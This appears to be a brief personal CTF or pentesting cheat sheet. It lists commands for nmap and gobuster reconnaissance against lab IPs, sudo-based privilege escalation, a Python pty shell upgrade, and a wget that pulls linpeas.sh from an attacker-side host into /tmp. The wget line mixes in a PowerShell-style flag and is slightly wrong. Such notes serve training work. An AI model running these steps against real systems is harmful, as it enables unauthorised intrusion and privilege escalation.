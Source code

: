 # nmap scan
sudo nmap -sC -sV -oN nmap.md 10.10.179.53 -v


# Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.76/ -x php,py,js,css,




# Cat all fine read
cat *



# To Check Sudo Permissions
sudo -l


# prev esc linux bash shell
sudo bash


# python shell - stable bash shell

python3 -c  'import pty;pty.spawn("/bin/bash")'



# run python http server

sudo python -m SimpleHTTPServer 80

sudo wget http://10.8.0.189/linpeas.sh -OutFile /tmp/linpeas.sh

